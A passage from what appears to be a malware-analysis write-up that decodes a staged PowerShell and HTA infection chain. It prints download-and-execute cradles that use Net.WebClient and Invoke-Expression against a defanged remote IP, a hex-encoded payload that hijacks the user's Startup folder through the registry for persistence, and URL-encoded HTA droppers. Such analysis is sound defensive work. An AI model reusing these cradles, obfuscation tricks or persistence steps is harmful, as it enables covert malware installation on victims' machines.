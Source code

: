 ```html
var_func
self.close
</script>
```

After distilling the PowerShell command it looks like our hypothesis is confirmed! The PowerShell command creates a [`Net.WebClient`](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) object and calls [`DownloadString()`](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0) to retrieve additional content. Then the content is fed into [`Invoke-Expression`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2). Since this cmdlet is designed to execute additional arbitrary PowerShell commands, we can assume whatever gets downloaded is also PowerShell. So let's dig into `PS1_B.txt`!

```powershell
$Hx = 'hxxp://135.148.74[.]241/PS1_B.txt';
$HB=('DownloadString');
$HBB=('Net.WebClient');
$HBBB=('IeX(New-Object $HBB).$HB($Hx)');
$HBBBBB =($HBBB -Join '')|InVoke-exPressioN
```

## Decoding PS1_B.txt PowerShell (Stage 03)

Fast-forwarding through the triage of this file, we can see it contains PowerShell code as expected. We can already see some low-hanging indicators in the content. `C:\ProgramData\3814364655181379114711\3814364655181379114711.HTA` is going to contain the code specified in `$FFF`. Just like the first HTA file, the content is obfuscated using URL encoding. I'm going to wager that's part of a persistence mechanism. Again, we see a URL and `Invoke-Expression`. It's probably a safe bet that the URL delivers more PowerShell code. There's also a hex-encoded string that likely contains PowerShell code. After getting decoded into `$asciiString` the code gets executed with `iex`, an alias for `Invoke-Expression`. So let's get that cleartext string.

```powershell
$HHxHH = "C:\ProgramData\3814364655181379114711"
$HHHxHHH = "C:\ProgramData\3814364655181379114711"
$hexString = "5b 73 79 73 74 65 6d 2e 69 6f 2e 64 69 72 65 63 74 6f 72 79 5d 3a 3a 43 72 65 61 74 65 44 69 72 65 63 74 6f 72 79 28 24 48 48 78 48 48 29 0a 73 74 61 72 74 2d 73 6c 65 65 70 20 2d 73 20 35 0a 53 65 74 2d 49 74 65 6d 50 72 6f 70 65 72 74 79 20 2d 50 61 74 68 20 22 48 4b 43 55 3a 5c 53 6f 66 74 77 61 72 65 5c 4d 69 63 72 6f 73 6f 66 74 5c 57 69 6e 64 6f 77 73 5c 43 75 72 72 65 6e 74 56 65 72 73 69 6f 6e 5c 45 78 70 6c 6f 72 65 72 5c 55 73 65 72 20 53 68 65 6c 6c 20 46 6f 6c 64 65 72 73 22 20 2d 4e 61 6d 65 20 22 53 74 61 72 74 75 70 22 20 2d 56 61 6c 75 65 20 24 48 48 48 78 48 48 48 3b"
$asciiChars = $hexString -split ' ' |ForEach-Object {[char][byte]"0x$_"}
$asciiString = $asciiChars -join ''
iex $asciiString
start-sleep -s 3
$FFF = @'
<script language=javascript>document.write(unescape('%3Cscript%20language%3D%22VBScript%22%3E%0AFunction%20var_func%28%29%0AHB%20%3D%20replace%28%22pow%28-_-%29rsh%28-_-%29ll%20%22%2C%22%28-_-%29%22%2C%22e%22%29%0AHBB%20%3D%20%22%24@@@x%20%3D%20%27hxxp://135.148.74[.]241/S_B.txt%27%3B%24@@@...self.close%0A%3C/script%3E'))</script>
'@
Set-Content -Path C:\ProgramData\3814364655181379114711\3814364655181379114711.HTA -Value $FFF

start-sleep -s 3

$Hx = 'hxxp://135.148.74[.]241/S_B.txt';
$HB=('{2}{0}{1}' -f'---------l---------o---------a---------d---------'...'')|InVokE-ExpresSioN
```
